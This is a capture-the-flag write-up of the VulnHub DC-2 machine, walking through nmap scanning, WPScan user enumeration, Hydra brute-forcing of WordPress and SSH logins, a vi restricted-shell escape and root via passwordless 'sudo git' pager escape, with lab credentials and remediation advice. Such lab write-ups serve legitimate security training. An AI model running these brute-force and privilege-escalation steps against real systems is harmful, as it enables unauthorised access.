# DC-2 — VulnHub Walkthrough

## Introduction

DC-2 is the second machine in the VulnHub DC series. The challenge involves identifying the target, enumerating its services, investigating a WordPress website, discovering credentials, gaining SSH access, escaping a restricted shell and escalating privileges to root.

This walkthrough documents the steps I followed to complete the machine, including the commands used and the findings from each stage.

**Objective:** Capture all flags and obtain root access.

Note on Credentials:
The usernames and passwords shown throughout this walkthrough are intentionally included to document the steps taken during the DC-2 challenge and to demonstrate how weak credentials can be discovered and exploited in a controlled environment. These credentials belong exclusively to the VulnHub DC-2 virtual machine, which is designed for educational penetration-testing practice. They are included for learning and demonstration purposes only and should not be used against any real-world systems. All testing was carried out within my own authorised lab environment.

### Lab Information

| Detail | Information |
|---|---|
| Platform | VulnHub |
| Machine | DC-2 |
| Attacker | Kali Linux |
| Target IP | `192.168.56.103` |
| Attacker IP | `192.168.56.107` |
| Web Service | HTTP |
| SSH Port | `7744` |
| Difficulty | Beginner |

### Tools Used

- Nmap
- CeWL
- WPScan
- Hydra
- SSH
- Linux command-line utilities
- Git

---

# 1. Information Gathering

## 1.1 Checking Network Interfaces

I started by checking the network interfaces on Kali Linux to identify the IP address assigned to my lab network.

```bash
ip a
```

My Kali machine was using `192.168.56.107` on the host-only network.

**Screenshot 01 — Network interfaces**



## 1.2 Configuring the Hosts File

I edited the local hosts file so that I could access the target using the hostname `dc-2` rather than typing its IP address each time.

```bash
sudo nano /etc/hosts
```

I added the following entry:

```text
192.168.56.103 dc-2
```

This allowed me to access the website using:

```text
http://dc-2/
```

**Screenshot 02 — Hosts file configuration**



## 1.3 Discovering the Target

Next, I scanned the host-only network to identify active machines.

```bash
nmap -sn 192.168.56.0/24
```

The scan identified the DC-2 machine at:

```text
192.168.56.103
```

**Screenshot 03 — Network discovery**



## 1.4 Port Scanning and Service Enumeration

After identifying the target, I performed a full TCP port scan with service and version detection.

```bash
nmap -A -p- 192.168.56.103 -T5 --open
```

The scan identified two open ports:

| Port | Service | Version |
|---|---|---|
| 80 | HTTP | Apache 2.4.10 |
| 7744 | SSH | OpenSSH 6.7p1 |

The scan also provided information indicating that the website was running WordPress 4.7.10.

The SSH service was running on port `7744`, rather than the standard SSH port `22`.

**Screenshot 04 — Nmap scan results**



---

# 2. Web Enumeration

## 2.1 Visiting the Website

I opened the target website in the browser:

```text
http://dc-2/
```

The website displayed a WordPress installation.

The first flag was displayed on the website and contained a clue referring to CeWL.

This suggested that I should investigate the website's content and use it to generate a custom wordlist.

**Screenshot 05 — DC-2 website**



## 2.2 Discovering Flag 1

The first flag provided a hint about using CeWL to create a wordlist.

This indicated that words found on the website could be useful when testing passwords.

**Screenshot 06 — Flag 1**



## 2.3 Generating a Wordlist with CeWL

I used CeWL to crawl the website and collect words into a text file.

```bash
cewl http://dc-2/ > worldlist.txt
```

This generated a custom wordlist called `worldlist.txt`.

Some of the words included:

```text
parturient
adipiscing
```

These words would be useful during the password-testing stage.

**Screenshot 07 — CeWL command**



## 2.4 Reviewing the Wordlist

I checked the generated wordlist to confirm that words had been collected successfully.

```bash
cat worldlist.txt
```

The output contained words extracted from the target website.

**Screenshot 08 — Generated wordlist**



## 2.5 WordPress Enumeration with WPScan

I used WPScan to enumerate usernames on the WordPress installation.

```bash
wpscan --url http://dc-2/ -e u
```

The scan identified the following usernames:

```text
admin
jerry
tom
```

It also identified WordPress version 4.7.10 and reported that XML-RPC was enabled.

**Screenshot 09 — WPScan enumeration**



## 2.6 Identifying WordPress Users

The enumeration provided three usernames that could be investigated further.

```text
admin
jerry
tom
```

Having identified the usernames, I moved on to testing the credentials using the custom wordlist.

**Screenshot 10 — WordPress usernames**



---

# 3. Password Discovery

## 3.1 Testing WordPress Credentials

Using the usernames identified by WPScan and the wordlist generated with CeWL, I tested the WordPress login page with Hydra.

The command used was:

```bash
hydra -L users.txt -P worldlist.txt 192.168.56.103 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&testcoolie=1:S=Location'
```

This identified valid credentials for the WordPress accounts.

The credentials discovered during the assessment included:

| Username | Password |
|---|---|
| tom | parturient |
| jerry | adipiscing |

**Screenshot 11 — WordPress Hydra results**



## 3.2 Logging into WordPress

I used the discovered credentials to access the WordPress accounts.

The `tom` account did not reveal anything particularly useful.

I then logged in as `jerry`.

**Screenshot 12 — WordPress login**



## 3.3 Discovering Flag 2

After logging in as Jerry, I discovered the second flag.

The message suggested that exploiting WordPress was not the only way forward and hinted that another entry point might be available.

Looking back at the Nmap results, SSH was exposed on port `7744`.

This made SSH the next service to investigate.

**Screenshot 13 — Flag 2**



---

# 4. SSH Access

## 4.1 Testing SSH Credentials with Hydra

The target had SSH running on port `7744`.

I used Hydra to test Tom's username against the custom wordlist on the SSH service.

```bash
hydra -l tom -P worldlist.txt ssh://192.168.56.103 -s 7744
```

Hydra successfully discovered the following credentials:

```text
Login: tom
Password: parturient
```

This confirmed that the credentials could be used to access the SSH service.

**Screenshot 14 — Hydra SSH password discovery**



## 4.2 Connecting to the Target via SSH

With the credentials identified, I connected to the target using SSH.

Because SSH was running on port `7744`, I specified the port manually.

```bash
ssh tom@192.168.56.103 -p 7744
```

The connection was successful.

**Screenshot 15 — SSH login as Tom**



## 4.3 Identifying the Restricted Shell

After logging in, I found that the account was restricted.

I attempted to run:

```bash
whoami
id
```

However, both commands returned:

```text
command not found
```

This indicated that the shell environment was restricted and normal command execution was limited.

**Screenshot 16 — Restricted shell**



## 4.4 Enumerating Available Files and Commands

I used `ls` to inspect the current directory.

```bash
ls -la
```

The directory contained a file named:

```text
flag3.txt
```

I also inspected the available commands:

```bash
ls usr/bin
```

The available commands included:

```text
less
ls
scp
vi
```

The presence of `vi` was particularly interesting because editors can sometimes provide access to shell functionality.

**Screenshot 17 — Available commands and files**



---

# 5. Escaping the Restricted Shell

## 5.1 Using Vi

I used the available `vi` editor to access shell functionality.

After returning to the shell, I modified the environment variables to restore access to normal system commands.

```bash
export PATH=/bin:/usr/bin:$PATH
export SHELL=/bin/bash:$SHELL
```

**Screenshot 18 — Vi shell escape**




## 5.2 Restoring Command Access

After modifying the environment, I was able to use commands such as `cat`.

```bash
cat flag3.txt
```

This allowed me to read the third flag.

**Screenshot 19 — Restored command access**


## 5.3 Discovering Flag 3

The third flag contained the following message:

> Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.

The clue suggested that I should switch from the Tom account to another local user named Jerry.

**Screenshot 20 — Flag 3**



---

# 6. Switching Users

## 6.1 Switching from Tom to Jerry

Following the clue in Flag 3, I used the `su` command to switch users.

```bash
su jerry
```

I entered Jerry's password:

```text
adipiscing
```

The user switch was successful.

**Screenshot 21 — Switching to Jerry**



## 6.2 Inspecting Jerry's Home Directory

After switching to Jerry, I inspected the home directory.

```bash
ls -la
```

I found another flag file:

```text
flag4.txt
```

**Screenshot 22 — Jerry's home directory**



## 6.3 Discovering Flag 4

I read the fourth flag:

```bash
cat flag4.txt
```

The message explained that I was not finished yet and included the clue:

> Go on - git outta here!!!!

This strongly suggested that Git would be involved in the final stage of the challenge.

**Screenshot 23 — Flag 4**



---

# 7. Privilege Escalation

## 7.1 Checking Sudo Permissions

Before attempting privilege escalation, I checked which commands Jerry could execute using sudo.

```bash
sudo -l
```

The output showed:

```text
(root) NOPASSWD: /usr/bin/git
```

This meant that Jerry could run Git as root without entering a password.

**Screenshot 24 — Sudo permissions**



## 7.2 Investigating Git

The fourth flag had specifically mentioned Git.

I used Git's help functionality with the pager option:

```bash
sudo git -p help config
```

This opened the Git help page inside a pager.

The pager provided a way to execute a shell command.

**Screenshot 25 — Git help pager**



## 7.3 Obtaining a Root Shell

Inside the pager, I entered:

```text
!/bin/bash
```

This launched a Bash shell with root privileges.

The prompt changed to:

```text
root@DC-2:/home/jerry#
```

I had successfully escalated from the Jerry account to root.

**Screenshot 26 — Root shell**



---

# 8. Capturing the Final Flag

## 8.1 Navigating to the Root Directory

With root access, I navigated to the root user's home directory.

```bash
cd /root
ls -la
```

The directory contained:

```text
final-flag.txt
```

**Screenshot 27 — Root directory**



## 8.2 Reading the Final Flag

I read the final flag:

```bash
cat final-flag.txt
```

The file displayed the final congratulatory message, confirming that the challenge had been completed successfully.

**Screenshot 28 — Final flag**



---

# Attack Path Summary

The attack path followed during this assessment was:

```text
Network Discovery
       |
       v
Target Identified
       |
       v
Nmap Enumeration
       |
       v
WordPress Discovery
       |
       v
CeWL Custom Wordlist
       |
       v
WPScan User Enumeration
       |
       v
Hydra Credential Testing
       |
       v
SSH Access as Tom
       |
       v
Restricted Shell Escape
       |
       v
Flag 3
       |
       v
Switch to Jerry
       |
       v
Flag 4
       |
       v
Sudo Permission Enumeration
       |
       v
Git Privilege Escalation
       |
       v
Root Access
       |
       v
Final Flag
```

# Findings and Recommendations

| Finding | Recommendation |
|---|---|
| WordPress user enumeration | Restrict unnecessary exposure of account information. |
| Weak or guessable passwords | Enforce strong, unique passwords and appropriate authentication protections. |
| SSH access using discovered credentials | Use SSH keys where appropriate and restrict access to trusted users and networks. |
| Restricted shell escape | Review available utilities and harden restricted environments. |
| Excessive sudo permissions | Apply the principle of least privilege. |
| Git executable available through passwordless sudo | Avoid granting unrestricted root execution to applications that provide shell escape functionality. |
| Older WordPress installation | Keep WordPress, plugins, themes and the operating system updated. |

# Lessons Learned

This challenge demonstrated the importance of following a structured penetration-testing methodology.

Key lessons included:

- Network discovery is an important first step.
- Full port scans can identify services running on non-standard ports.
- Website content can be used to create targeted wordlists.
- WPScan can help identify usernames on WordPress installations.
- Password weaknesses can expose access to other services.
- Restricted shells should be examined carefully.
- Flag messages can provide useful clues about the next stage.
- Sudo permissions should always be reviewed during authorised enumeration.
- Applications such as Git can become privilege-escalation vectors when incorrectly configured to run as root.

# Conclusion

DC-2 demonstrated how multiple security weaknesses can be chained together to obtain full system access.

I began by identifying the target and enumerating its open ports. I then investigated the WordPress website, generated a custom wordlist using CeWL, enumerated users with WPScan and discovered credentials using Hydra.

These credentials provided access to SSH as Tom. From there, I escaped the restricted shell, switched to Jerry and identified a passwordless sudo permission for Git.

By using Git's pager functionality, I obtained a root shell and successfully accessed the final flag.

**DC-2 completed — Root access achieved.**

---

## Repository Structure

The screenshots should be stored alongside the README in a folder named `screenshots`.

```text
VulnHub-Writeups/
│
├── README.md
│
├── DC-1/
│   ├── README.md
│   └── screenshots/
│
└── DC-2/
    ├── README.md
    └── screenshots/
        ├── 01-network-interfaces.png
        ├── 02-hosts-file.png
        ├── 03-network-discovery.png
        ├── 04-nmap-scan.png
        ├── 05-website.png
        ├── 06-flag1.png
        ├── 07-cewl-command.png
        ├── 08-wordlist.png
        ├── 09-wpscan.png
        ├── 10-wordpress-users.png
        ├── 11-hydra-wordpress.png
        ├── 12-wordpress-login.png
        ├── 13-flag2.png
        ├── 14-hydra-ssh.png
        ├── 15-ssh-login.png
        ├── 16-restricted-shell.png
        ├── 17-available-commands.png
        ├── 18-vi-shell-escape.png
        ├── 19-command-access.png
        ├── 20-flag3.png
        ├── 21-su-jerry.png
        ├── 22-jerry-home.png
        ├── 23-flag4.png
        ├── 24-sudo-permissions.png
        ├── 25-git-pager.png
        ├── 26-root-shell.png
        ├── 27-root-directory.png
        └── 28-final-flag.png
```
